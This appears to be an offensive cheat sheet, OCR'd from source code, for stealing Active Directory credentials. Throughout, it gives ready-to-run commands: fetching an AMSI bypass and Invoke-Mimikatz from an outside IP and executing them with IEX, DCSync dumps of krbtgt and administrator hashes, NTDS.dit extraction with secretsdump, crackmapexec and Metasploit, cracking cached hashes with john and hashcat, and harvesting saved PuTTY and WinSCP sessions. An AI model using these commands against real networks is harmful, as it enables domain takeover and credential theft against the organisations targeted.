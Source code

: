     Domain Creds (locally on DC):
        //DCSync:
            //dump any user's hash
            //Windows:
                (new-object system.net.webclient).downloadstring('http://192.168.45.210/amsi.txt') | IEX
                (New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/Invoke-Mimikatz10.ps1') | IEX
                Invoke-Mimikatz -Command '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt" "exit"'
                Invoke-Mimikatz -Command '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\administrator" "exit"'
                Invoke-DCSync -GetComputers -Domain megacorp.local -DomainController DC1.megacorp.local
            //Linux:
                secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
                secretsdump.py DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
        //NTDS.dit:
            //Recon:
                //MSF:  use post/windows/gather/ntds_location; set session 1; exploit
            //Dump & Parse:
                //Local:
                    fgdump.exe
                    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
                    NTDSDumpEx.exe -d C:\ntds.dit -s C:\SYSTEM

                //Remote:
                    //CME:
                        crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --ntds drsuapi
                    //MSF:
                        use auxiliary/scanner/smb/impacket/secretsdump; set rhosts 192.168.1.108; set smbuser administrator; set smbpass Ignite@987; exploit
            //Dump:
                //MSF:
                    use post/windows/gather/ntds_grabber; set session 1; exploit
                    cabextract <cab filename>
            //Parse:
                secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL

            //Crack:
                john --format=NT hash

    //Cached Creds (must crack):
        reg query "HKLM\Software\Microsoft\Windows NT\Current Version\Winlogon"
        //MSF:  post/windows/gather/cachedump
        ./john cache.txt -w=wordlist.txt --format=mscash2 --external:AutoStatus
        ./hashcat64.bin -a 0 -m 2100 /home/hash.txt /home/wordlist.txt -w 3 

    //Putty:
        reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
        reg query "HKEY_USERS\<SID>\Software\SimonTatham\PuTTY\Sessions" /s

    //WinSCP:
        reg query "HKCU\Software\Martin Prikryl\WinSCP 2\Sessions" /s
        reg query "HKEY_USERS\<SID>\Software\Martin Prikryl\WinSCP 2\Sessions" /s
        for /f "tokens=*" %a in ('reg query "HKEY_USERS" ^| findstr /r "S-1-5-.*"') do @reg query "%a\Software\Martin Prikryl\WinSCP 2\Sessions" /s
        Get-ChildItem -Path "HKCU:\Software\Martin Prikryl\WinSCP 2\Sessions\" -Recurse
